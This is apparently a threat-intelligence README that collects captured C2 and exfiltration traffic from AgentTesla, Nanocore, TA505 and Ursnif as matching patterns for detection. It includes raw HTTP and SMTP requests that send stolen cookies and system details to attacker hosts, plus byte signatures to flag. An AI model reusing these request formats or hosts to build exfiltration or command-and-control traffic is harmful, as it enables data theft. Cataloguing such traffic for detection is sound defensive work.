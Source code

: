 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51  29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89  85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa  78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04  ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")
